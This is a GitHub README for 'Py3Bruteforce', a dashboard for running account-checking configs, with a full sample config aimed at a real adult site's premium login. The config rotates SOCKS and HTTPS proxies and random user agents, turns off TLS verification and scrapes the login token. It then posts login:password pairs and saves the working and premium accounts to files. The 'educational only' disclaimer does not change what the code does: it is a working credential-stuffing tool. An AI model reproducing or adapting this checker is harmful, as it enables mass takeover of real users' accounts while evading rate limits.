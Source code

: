 # Py3Bruteforce a new way for bruteforcing with Python

## Warning
This was made only for educational, not for hacking ! Use it at your own risk!

## About

Py3Bruteforce is a web-service which allows you to write your own configs and work with them. 
Config-size is about 70-80 lines of code.

Sample : 

  
<details>
<summary>Config sample</summary>
This is a sample config written for pornhub
  
```python
  import requests
  from utils.utils import Help
  import os,sys
  from bs4 import BeautifulSoup as soup

  # Turning off warnings
  from requests.packages.urllib3.exceptions import InsecureRequestWarning
  requests.packages.urllib3.disable_warnings(InsecureRequestWarning)


  class Brute(object):
      def __init__(self):
          # ========================================
          # Project information
          self.projectName = "Porn"
          self.projectFullName = "PornHub"
          self.description = "Author : Pirate2110"
      def check(self, login, password, proxytype, proxy, timeout):
          try:
              # if proxy == null pass
              if proxy == "err":
                  print("proxerr")
                  pass
              else:
                  with requests.session() as s:
                      # All what u need for project start - here
                      # ========================================
                      # Proxy
                      if proxytype == "no":
                          proxies = None
                      elif proxytype == "burp":
                          proxies = {'https': '127.0.0.1:8080', 'http': '127.0.0.1:8080'}
                      elif proxytype == "https":
                          proxies = {'https': "http://" + proxy}
                      elif proxytype == "socks4":
                          proxies = {'https': "socks4://" + proxy}
                      elif proxytype == "socks5":
                          proxies = {'https': "socks5://" + proxy}

                      # ========================================
                      # Headers
                      headers = {'User-Agent' : Help.getRandomUa()}
                      # Token
                      r = s.get("https://rt.pornhubpremium.com/premium/login", proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      site = soup(r.text, "html.parser")
                      token = site.find("input", id="token")
                      body = {'username' : login, 'password': password, 'remember_me' : 'on', 'from':'mobile_login', 'token' : str(token['value']), 'redirect' : '', 'from' : 'pc_premium_login', 'segment':'straight'}
                      # Auth request
                      r = s.post("https://rt.pornhubpremium.com/front/authenticate", data=body, proxies=proxies, verify=False, timeout=timeout, headers=headers)
                      # ========================================
                      # good or bad if statement
                      if "\u041d\u0435\u0432\u0435\u0440\u043d\u043e\u0435" in r.json()['message']:
                          return "bad"

                      elif r.json()['success'] == "1":
                          if "https://rt.pornhubpremium.com/premium_signup?type=PhP-Lander" in r.json()['redirect']:
                              Help.writelog("good.txt", login + ":" + password + "|" + str(r.text))
                          else:
                              Help.writelog("premium.txt", login + ":" + password + "|" + str(r.text))
                          return "good"
                          #return login + ":" + password + "|" + str(r.json()['result']['basic']) + "|" + str(r.json()['result']['bonus'])
                      else:
                          return "projerrror"
                      # ========================================
          except Exception as e:
              #  ========================================
              #  some info about error
              exc_type, exc_obj, exc_tb = sys.exc_info()
              fname = os.path.split(exc_tb.tb_frame.f_code.co_filename)[1]
              #print(e, exc_type, fname, exc_tb.tb_lineno)
              return "error"
  ```
</details>

## Dashboard screenshot :

![Dashboard](https://github.com/fukttt/fukttt.github.io/raw/main/image/1.png)

Here you can see 
* Dashboard with running projects
* Wiki (for now he is empty)
* Logs (page with logs from projects)
* Upload files (uploading module/sources/proxies)
* System info (about CPU using in graph)
* Available modules (where u can choose module and run it)

## Installation

```bash
git clone https://github.com/fukttt/py3bruteforce.git
cd pybruteforce/
pip3 install -r requirements.txt
python3 app.py
```


